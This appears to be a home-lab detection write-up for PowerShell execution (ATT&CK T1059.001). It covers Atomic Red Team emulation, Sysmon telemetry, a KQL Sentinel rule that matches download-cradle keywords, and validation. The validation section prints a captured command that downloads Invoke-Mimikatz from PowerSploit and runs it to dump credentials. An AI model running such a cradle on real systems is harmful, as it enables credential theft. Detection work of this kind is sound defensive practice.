


# T1059.001 — Command and Scripting Interpreter: PowerShell

**Tactic:** Execution
**ATT&CK:** [T1059.001](https://attack.mitre.org/techniques/T1059/001/)
**Status:** ✅ Detected

## Summary
 
PowerShell is one of the most heavily abused execution mechanisms in real intrusions.
Attackers use it for download cradles, in-memory execution, and obfuscated commands to
evade detection. This detection identifies PowerShell launched with the flags and patterns
that distinguish malicious use from benign administration.

## Emulation

Simulated with Atomic Red Team, using the assumed-breach model where tests run directly on the victim endpoint.

```powershell
Import-Module .\invoke-atomicredteam\Invoke-AtomicRedTeam.psd1 -Force
Invoke-AtomicTest T1059.001 -GetPrereqs
Invoke-AtomicTest T1059.001
```

Cleanup after testing to return the host to a known-good state:

```powershell
Invoke-AtomicTest T1059.001 -Cleanup
```

## Telemetry source
 
- **Sysmon Event ID 1** (Process Create), collected via Azure Monitor Agent into the
  Log Analytics `Event` table.
- Sysmon configured with the SwiftOnSecurity baseline config.

## Detection logic (via KQL)
 
Written against the **Sysmon-via-AMA schema** (`Event` table), where event detail lives in
the `EventData` XML field, so the query string-matches on `EventData` rather than using the
clean named columns of the Defender Advanced Hunting schema:
 
```kql
Event
| where Source == "Microsoft-Windows-Sysmon"
| where EventID == 1
| where EventData has "powershell"
| where EventData has_any ("-enc", "-EncodedCommand", "FromBase64String",
                           "DownloadString", "IEX", "hidden", "-nop", "-NoProfile")
| project TimeGenerated, Computer, RenderedDescription
| sort by TimeGenerated desc
```

## Sentinel analytics rule
 
| Setting | Value |
|---|---|
| Rule type | Scheduled query |
| Run frequency | Every 5 minutes |
| Lookback | Last 5 minutes |
| Alert threshold | Results > 0 |
| Entity mapping | Host → HostName = `Computer` |
| Incident creation | Enabled |
| MITRE mapping | Execution / T1059.001 |

Note: a longer lookback (see ) better absorbs ingestion latency; revisited in later detections."

## Validation

The analytics rule fired and raised a live incident in the Microsoft Defender portal (**"T1059.001 - Suspicious PowerShell Execution"**) correctly attributed to the host `CLIENT01.lab.local`, grouping 19 related events.





Inspecting the captured event shows a download-and-execute cradle for **Mimikatz**, a credential-dumping tool, pulled into memory and run with `-DumpCreds`:





The captured command line:

​```
cmd.exe /c powershell.exe "IEX (New-Object Net.WebClient).DownloadString(
'.../PowerShellMafia/PowerSploit/.../Invoke-Mimikatz.ps1'); Invoke-Mimikatz -DumpCreds"
​```

This validates the detection pipeline end to end: an attacker technique was emulated on the endpoint, captured by Sysmon, forwarded through the AMA/DCR pipeline, matched by the KQL analytics rule, and surfaced as an incident mapped to T1059.001.

## Detection lifecycle covered
 
Emulate (Atomic Red Team) → confirm telemetry (Sysmon EID 1) → detect (KQL analytics rule)
→ raise incident (Sentinel/Defender) → document (this writeup). FP tuning noted for production.
